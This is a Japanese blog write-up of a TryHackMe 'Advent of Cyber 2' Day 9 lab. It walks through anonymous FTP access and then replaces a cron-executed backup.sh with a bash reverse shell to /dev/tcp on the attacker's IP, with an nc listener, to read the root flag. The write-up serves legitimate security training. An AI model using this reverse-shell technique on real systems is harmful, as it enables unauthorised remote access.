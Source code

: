 ```yaml
---
title: "【THM: TryHackMe】Advent of Cyber 2を解いてみた【Day9】"
date: 2021-12-31T09:29:19+09:00
description:
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- TryHackMe
- WriteUP
categories:
- WriteUP
series:
- Advent of Cyber 2
image: /posts/2021/08/img/advent-of-cyber-2-thumbnail.png
---
```


## はじめに

今回は基本的なftpサーバへの接続方法やコマンドを学ぶ章になっています。
また、設定の不備によってftpからシェルを奪取する基本的な方法について学ぶことができます。

{{< notice warning "警告" >}}
本記事は全てのセキュリティに携わる人に向けて執筆しており、クラッキングを推奨するものではありません。本記事の手法を用いて、許可された環境以外で実行することは絶対にやめてください。
{{< /notice >}}

## Anyone can be Santa!

### Name the directory on the FTP server that has data accessible by the "anonymous" user

> FTPサーバー上の、anonymousユーザーがアクセスできるデータを持つディレクトリの名前

まずは`ftp`コマンドでインスタンスに接続します。

```bash
ftp 10.10.xxx.xxx
```

名前を聞かれるので`anonymous`ユーザでログインします。
そして中身を確認して1問目は終了です。

```bash
ftp>ls
```

### What script gets executed within this directory?

> このディレクトリの中で、どのようなスクリプトが実行されるのでしょうか？

先程のanonymousユーザがアクセスできるディレクトリにあるスクリプトを確認して終了です。

### What movie did Santa have on his Christmas shopping list?

> サンタがクリスマスの買い物リストに入れた映画は？

こちらもpublic配下にあるファイルから取得できます。

```bash
ftp>cd public
ftp>get xxxxxxxxxxxx.txt
```

### Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

> このスクリプトを悪意のあるデータを含むように再アップロードする（9.6節で行ったのと同じように。/root/flag.txtの内容を出力してください!

まずは、スクリプトをGetしてきます

```bash
ftp>get backup.sh
```

このバックアップスクリプトは定期的にcron実行されるのではないかとあたりをつけ、手元で中身を変えたあと、再度ftpサーバにputします

```bash:backup.sh
#!/bin/bash

bash -i >& /dev/tcp/10.11.xxx.xxx/4242 0>&1
```

このReverse Shellのスクリプトは[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)に記載されています。
IPアドレスは自分のIPアドレスを記載してください。

その後、書き換えたbackup.shをftpサーバ上に再度あげます

```bash
ftp>put backup.sh
```

定期的にbackup.shが実行されることを期待して、こちらでListenしておきます。

```bash
nc -lvnp 4242
```

1分ほど放置していると、無事bashが帰ってきていることを確認できます。
それでflagを取得して終了です。

## おわりに

今回は基本的なftpサーバへの接続方法やコマンド類、また設定の不備からシェルを奪取する方法について学びました。
今回の最後の問題から少し考えさせられるような問題が来ましたが、分からない部分は記述してある文章をよく読めば解けるようになっているので、OSCPライクなマシンの攻略を考えている人の最初のとっかかりになる問題だと思います。
